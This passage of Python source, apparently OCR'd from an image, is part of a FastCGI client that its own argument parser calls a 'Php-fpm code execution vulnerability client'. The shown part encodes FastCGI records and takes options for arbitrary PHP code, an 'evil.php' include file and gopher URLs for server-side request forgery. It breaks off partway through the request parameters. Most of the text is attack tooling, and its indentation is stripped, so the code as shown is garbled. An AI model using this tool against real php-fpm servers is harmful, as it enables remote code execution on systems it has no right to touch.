 ```python
if nameValuePairs:
for (name, value) in nameValuePairs.items():
name = force_bytes(name)
value = force_bytes(value)
paramsRecord += self.__encodeNameValueParams(name, value)
if paramsRecord:
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)
if post:
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, force_bytes(post), requestId)
request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_STDIN, b'', requestId)
return request
def __waitForResponse(self, requestId):
data = b''
while True:
buf = self.sock.recv(512)
if not len(buf):
break
data += buf
data = BytesIO(data)
while True:
response = self.__decodeFastCGIRecord(data)
if not response:
break
if response['type'] == FastCGIClient.__FCGI_TYPE_STDOUT \
or response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
if response['type'] == FastCGIClient.__FCGI_TYPE_STDERR:
self.requests['state'] = FastCGIClient.FCGI_STATE_ERROR
if requestId == int(response['requestId']):
self.requests[requestId]['response'] += response['content']
if response['type'] == FastCGIClient.FCGI_STATE_SUCCESS:
self.requests[requestId]
return self.requests[requestId]['response']
def __repr__(self):
return "fastcgi connect host:{} port:{}".format(self.host, self.port)
if __name__ == '__main__':
parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
parser.add_argument('host', help='Target host, such as 127.0.0.1')
parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php echo "PWNed";?>')
parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
parser.add_argument('-e', '--ext', help='ext absolute path', default='')
parser.add_argument('-if', '--include_file', help='evil.php absolute path', default='')
parser.add_argument('-u', '--url_format', help='generate gopher stream in url format', nargs='?',const=1)
parser.add_argument('-b', '--base64_format', help='generate gopher stream in base64 format', nargs='?',const=1)
args = parser.parse_args()
client = FastCGIClient(args.host, args.port, 3, 0)
params = dict()
documentRoot = "/"
uri = args.file
params = {
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'POST',
'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
'SCRIPT_NAME': uri,
'QUERY_STRING': '',
'REQUEST_URI': uri,
'DOCUMENT_ROOT': documentRoot,
'SERVER_SOFTWARE': 'php/fcgiclient',
```